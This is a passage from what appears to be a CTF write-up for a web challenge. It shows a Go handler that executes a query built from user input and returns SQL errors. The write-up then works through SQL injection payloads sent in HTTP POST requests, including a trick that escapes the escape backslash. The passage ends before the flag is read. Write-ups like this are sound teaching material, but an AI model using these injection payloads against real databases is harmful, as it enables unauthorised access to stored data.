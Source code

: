 Finally, if the executed SQL query returned an error, the response will contain the SQL error. Otherwise, it will be the string "WIP":

```go
func postQuery(w http.ResponseWriter, r *http.Request) {
    if r.Method == http.MethodPost {
        [...]
        _, err := db.Exec(preparedStmt)

        if err != nil {
            w.WriteHeader(http.StatusBadRequest)
            fmt.Fprintln(w, err)
            return
        }

        // TODO: return YES/NO (tomorrow do, it's 5am already for me...)
        fmt.Fprintln(w, "WIP")
        return
    }
}
```

With that in mind, it's clear that this route is vulnerable to **SQL injection due to the incorrect usage of prepared statement**.

Let's try to read the flag record!

First off, we'll need to escape single quote character. To do so, we can inject a single quote character and using `--` to comment out the rest of the syntax:

```http
POST /query HTTP/1.1
Host: chal.24.cuhkctf.org:24021
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

value='--
```

Complete SQL query:

```sql
SELECT * FROM items WHERE name = E''--'
```

Oh, wait. Don't forget about the **escape character (`\`)**. So the complete SQL query should be like this:

```sql
SELECT * FROM items WHERE name = E'\'--'
```

To bypass the escape character, we can just **escape the escape character**!

```http
POST /query HTTP/1.1
Host: chal.24.cuhkctf.org:24021
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

value=\'--
```
